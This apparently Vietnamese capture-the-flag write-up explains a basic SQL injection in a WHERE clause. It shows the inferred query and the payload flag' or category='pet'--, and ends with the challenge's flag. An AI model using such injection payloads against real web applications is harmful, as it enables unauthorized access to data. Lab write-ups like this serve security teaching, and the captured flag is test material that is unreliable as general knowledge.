 # SQL injection vulnerability in WHERE clause

Mình thử vào trang flag để xem nhưng không có gì.
Rất có thể flag đã bị ẩn đi
Mình chú ý đến URL 

![alt text](image.png)

Câu lệnh trên tương đương với query: ```SELECT * FROM list WHERE category = 'flag'```
Mình thử inject vào để query thành: ```SELECT * FROM list WHERE category = 'flag' or category = 'pet'--```
Để có query như vậy thì payload mình tải lên sẽ là: ```flag' or category='pet'--```
Khi mình chuyền vào như vậy phần comment sẽ bypass đi dấu ngoặc đơn đóng lại query nên phần query sẽ được mở rộng sang cả phần or


*Flag: CHH{51mpL3_Sqli_IN_WhER3_5c226f2c7b700855aa2a577c90110627}*